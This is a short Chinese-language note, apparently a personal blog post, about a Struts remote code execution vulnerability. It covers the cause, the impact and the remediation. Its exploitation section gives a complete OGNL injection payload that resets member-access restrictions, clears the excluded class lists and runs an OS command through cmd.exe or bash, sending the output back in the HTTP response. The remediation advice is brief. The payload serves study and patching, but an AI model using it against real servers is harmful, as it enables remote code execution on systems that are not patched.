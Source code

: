 ```yaml
---
title: Struts远程代码执行漏洞
description: 搬运之前写的笔记
---
```

# 漏洞说明
在默认配置下，如果用户所提交的表单出现验证错误，后端会对用户的输入进行解析处理，然后返回并显示处理结果。
# 漏洞危害
远程执行代码，命令注入，获取信息
# 漏洞利用
（1）用来出发文件漏洞，声明为文件上传。

%{(#_='multipart/form-data')
（2）用来注入OGNL代码，通过ognl表达式静态调用获取ognl.OgnlContext的DEFAULT_MEMBER_ACCESS属性，并将获取的结果覆盖_memberAccess属性，绕过SecurityMemberAccess的限制。
.(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm))))
（3）调用CMD命令的代码，首先判断操作系统，win下调用cmd，linux下调用bash。
.(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=newjava.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
# 漏洞整改
1.临时解决方案，通过使用resourcekeys替代将原始信息传递给actionmessage的方式，messages.add("msg", new ActionMessage("struts1.gangsterAdded", gform.getName()));
2.不要启动struts2-struts-plugin插件
3.不要使用shoucase.war
4.升级到最新版本。